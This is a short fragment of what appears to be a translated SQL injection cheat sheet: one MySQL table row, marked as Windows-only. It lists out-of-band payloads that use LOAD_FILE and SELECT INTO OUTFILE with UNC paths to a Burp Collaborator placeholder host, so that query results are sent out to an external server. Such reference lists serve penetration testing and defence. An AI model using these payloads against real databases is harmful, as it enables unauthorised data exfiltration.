 |   MySQL    | 以下只适用于Windows:                                                                                                                                                                                                   |
|            | LOAD_FILE('\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\\\\a')                                                                                                                                                                  |
|            | SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\a'                                                                                                                                             |
